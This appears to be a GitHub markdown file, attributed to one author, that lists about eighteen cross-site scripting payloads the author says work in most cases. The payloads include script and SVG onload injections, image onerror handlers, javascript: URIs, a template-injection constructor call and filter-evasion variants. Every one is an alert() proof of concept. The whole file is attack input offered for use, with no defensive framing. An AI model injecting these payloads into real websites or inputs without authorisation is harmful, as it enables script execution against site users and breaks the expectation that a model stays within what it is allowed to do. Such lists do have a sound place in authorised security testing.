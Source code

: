 # Most common working payloads
## This is list of XSS Payloads that worked in most cases for me

```html
"><svg/onload=alert(1)>
"><script>alert(1)</script>
<div onmouseover="alert(document.domain);">
<IMG SRC="javascript:alert('XSS');">
</style><script>a=eval;b=alert;a(b(/XSS/.source));</script>
"><img src=x onerror=alert(1)>
{{constructor.constructor(`alert(1)`)()}}
<noscript><&amp;amp;amp;amp;lt; title=" &lt;/noscript&gt; &lt;img src= x onerror =alert(document.domain)//&quot;&gt;
"><div onmouseover="alert(1);">
<BODY onload=alert(1)>
<BASE HREF="javascript:alert('XSS');//">
"></iframe><script>alert(123)</script>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<svg onLoad=alert(document.domain)>
/;alert(1)//
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)
```

## by Kira Reys
